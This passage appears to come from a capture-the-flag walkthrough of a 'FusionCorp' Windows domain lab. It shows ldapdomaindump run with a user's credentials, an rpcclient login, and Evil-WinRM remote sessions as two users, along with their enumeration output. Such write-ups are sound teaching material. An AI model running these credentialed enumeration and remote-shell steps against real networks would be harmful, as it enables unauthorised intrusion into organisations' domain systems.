 <br>

<h3>ldapdomaindump</h3>

```bash
ldapdomaindump $IP -u 'fusion.corp\lparker' -p '****************' --no-json --no-grep
```

<br>

<h3>Users</h3>

```bash
*Evil-WinRM* PS C:\Users\lparker\Desktop> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    jmurphy
krbtgt                   lparker
```

<br>

```bash
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         3/3/2021   3:49 AM                Administrator
d-----         3/3/2021   5:54 AM                jmurphy
d-----         3/3/2021   5:54 AM                lparker
d-r---         3/3/2021   3:49 AM                Public
```

<br>

<h3> User <code>jmurphy</code></h3>

<p>

- <code>jmurphy</code>  : <code>****************</code></p>

```bash
:~/FusionCorp# rpcclient -U lparker fusion.corp
```

<img width="977" height="584" alt="image" src="https://github.com/user-attachments/assets/dbedbc8b-2349-43e4-a81c-ceff4f85a2e6" />

<br>

```bash
:~/FusionCorp# evil-winrm -i fusion.corp -u jmurphy
Enter Password: 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jmurphy\Desktop> dir


```